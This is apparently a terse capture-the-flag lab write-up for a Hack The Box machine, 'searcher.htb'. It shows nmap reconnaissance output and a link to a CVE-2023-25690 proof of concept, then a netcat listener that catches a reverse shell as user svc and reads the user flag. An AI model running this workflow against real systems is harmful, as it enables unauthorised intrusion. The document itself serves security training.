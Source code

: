 └──╼ [★]$ nmap -sC -A -T4 -Pn 10.129.151.159
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 20:06 BST
Nmap scan report for 10.129.151.159
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds


https://github.com/dhmosfunk/CVE-2023-25690-POC



![image](https://github.com/Rogue-1/HTB/assets/105310322/3a775ef7-e6e8-44e4-b396-aaef44ed2d4f)


└──╼ [★]$ nc -lvnp 9999
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
id
Ncat: Connection from 10.129.151.159.
Ncat: Connection from 10.129.151.159:53744.
/bin/sh: 0: can't access tty; job control turned off
$ uid=1000(svc) gid=1000(svc) groups=1000(svc)

$ cat user.txt
e20a5ccbdad3cce7edff4b74ff13f303

